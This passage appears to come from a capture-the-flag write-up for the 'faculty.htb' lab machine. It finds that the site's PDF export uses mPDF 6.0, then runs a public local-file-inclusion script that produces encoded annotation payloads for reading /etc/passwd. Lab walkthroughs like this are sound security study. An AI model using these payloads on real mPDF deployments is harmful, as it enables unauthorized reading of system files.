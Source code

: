 
Changing tracks - we are able to export "Course List", "Subject List" and "Faculty List" as PDF. Testing to generate one we find that it's a simple POST request to `/admin/download.php` with a huge base64 blob as payload.

Analyzing the payload it's base64 encoded > url encoded > url encoded:
```
<h1><a name="top"></a>faculty.htb</h1><h2>Subjects</h2><table>	<thead>		<tr>			<th class="text-center">#</th>			<th class="text-left">Subject</th>			<th class="text-left">Description</th>			</tr></thead><tbody><tr><td class="text-center">1</td><td class="text-center"><b>DBMS</b></td><td class="text-center"><small><b>Database Management System</b></small></td></tr><tr><td class="text-center">2</td><td class="text-center"><b>Mathematics</b></td><td class="text-center"><small><b>Mathematics</b></small></td></tr><tr><td class="text-center">3</td><td class="text-center"><b>English</b></td><td class="text-center"><small><b>English</b></small></td></tr><tr><td class="text-center">4</td><td class="text-center"><b>Computer Hardware</b></td><td class="text-center"><small><b>Computer Hardware</b></small></td></tr><tr><td class="text-center">5</td><td class="text-center"><b>History</b></td><td class="text-center"><small><b>History</b></small></td></tr></tboby></table>
```

Can we exploit this by editing the content somehow? 


### Step 2
Download a PDF and analyze it using `exiftool` and we find it's created using `mPDF 6.0`:
```bash
➜  faculty exiftool OKYKcSDLWNQjVuybnHRm0XG6vr.pdf 
ExifTool Version Number         : 12.44
File Name                       : OKYKcSDLWNQjVuybnHRm0XG6vr.pdf
Directory                       : .
File Size                       : 1781 bytes
File Modification Date/Time     : 2022:08:26 09:47:42+02:00
File Access Date/Time           : 2022:08:26 09:48:08+02:00
File Inode Change Date/Time     : 2022:08:26 09:47:57+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:08:26 08:46:03+01:00
Modify Date                     : 2022:08:26 08:46:03+01:00
```

Googling for mPDF exploits we find [this LFI python script](https://packetstormsecurity.com/files/167897/mPDF-7.0-Local-File-Inclusion.html) that helps us create a base64 payload to be sent to the victim. 
As a PoC try to grab `/etc/passwd`:
```bash
➜  faculty ./mpdf-lfi.py 
File >> /etc/passwd
[+] Replace the content with the payload below
Url encoded payload:
%3Cannotation%20file%3D%22/etc/passwd%22%20content%3D%22/etc/passwd%22%20icon%3D%22Graph%22%20title%3D%22Attached%20File%3A%20/etc/passwd%22%20pos-x%3D%22195%22%20/%3E

Base64 encoded payload:
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=
```

